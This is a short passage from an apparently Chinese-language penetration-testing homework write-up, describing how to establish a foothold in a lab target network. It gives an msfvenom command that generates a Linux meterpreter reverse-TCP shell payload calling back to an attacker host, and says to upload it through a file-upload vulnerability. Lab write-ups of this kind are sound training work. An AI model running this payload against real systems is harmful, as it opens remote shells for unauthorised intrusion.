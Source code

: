       ![1747893446502](image/homework/1747893446502.png)
      ![1747893462723](image/homework/1747893462723.png)


### 步骤二 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`，通过上一层攻击中涉及的文件上传漏洞上传我们的meterpreter.elf文件。
<br>![](./pics/手动生成meterpretershell.png)<br>
2. 上传文件（要求完成入口靶标的提权行为）